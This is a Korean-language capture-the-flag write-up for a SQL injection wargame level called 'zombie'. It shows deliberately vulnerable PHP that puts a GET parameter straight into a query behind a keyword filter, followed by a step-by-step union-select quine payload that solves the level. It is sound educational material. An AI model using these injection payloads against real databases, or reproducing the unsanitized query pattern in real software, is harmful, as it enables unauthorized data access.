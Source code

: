 # zombie

## 1. Code
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect("zombie");
  if(preg_match('/rollup|join|ace|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_zombie where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("zombie");
  highlight_file(__FILE__);
?>
```

## 2. Condition
- `rollup join ace @`등을 필터링 하고있다.   
&rarr; ace는 replace 함수를 필터링하기 위함인것 같다.   
- GET 파라미터 pw와 sql 쿼리 실행 결과의 pw가 동일하다면, 문제가 해결된다.   


## 3. Solution   

이전 문제 <a href="./../ouroboros/ouroboros.md">ouroboros</a>와 같은 quine 문제이다.   
다른 점이라면 `replace`함수를 더이상 쓸 수 없다는 점이다.    



대안으로 `concat`함수와 서브쿼리 그리고 alias가 있다.   

```sql
' union select a from (select 'hihi' as a)as a%23
```
위 쿼리의 결과로 hihi가 출력되는 것을 볼 수 있다.   





이제, concat함수를 이용하면 메인코드 부분과 서브쿼리 부분을 모두 출력할 수 있다.   
```sql
' union select concat(a,a) from (select "' union select conct(a,a) from (select " as a)as a%23
```
결과는 다음과 같다.   
```sql
Pw : ' union select conct(a,a) from (select ' union select conct(a,a) from (select
```   





마지막으로 두 가지 문제가 있다.    

1. double qoutes 출력에 관한 문제
>    concat 함수 안에 `char(34)`을 넣어줌으로써 해결할 수 있다.   
```sql
' union select concat(a,char(34),a,char(34)) from (select "' union select conct(a,char(34),a,char(34)) from (select " as a)as a%23
```
>    결과는 다음과 같다.   
```sql
Pw : ' union select conct(a,char(34),a,char(34)) from (select "' union select conct(a,char(34),a,char(34)) from (select "
```




2. 입력한 값의 마지막 부분, ` as a)as a%23`에 관한 문제
> 간단하게 concat 함수 안에 추가해 주면 된다.    
```sql
' union select concat(a,char(34),a,char(34),' as a)as a%23') from (select "' union select concat(a,char(34),a,char(34),' as a)as a%23') from (select " as a)as a%23
```   
>    결과는 다음과 같으며, 문제가 해결되었다.   
```sql
Pw : ' union select concat(a,char(34),a,char(34),' as a)as a#') from (select "' union select concat(a,char(34),a,char(34),' as a)as a#') from (select " as a)as a#
ZOMBIE Clear!
```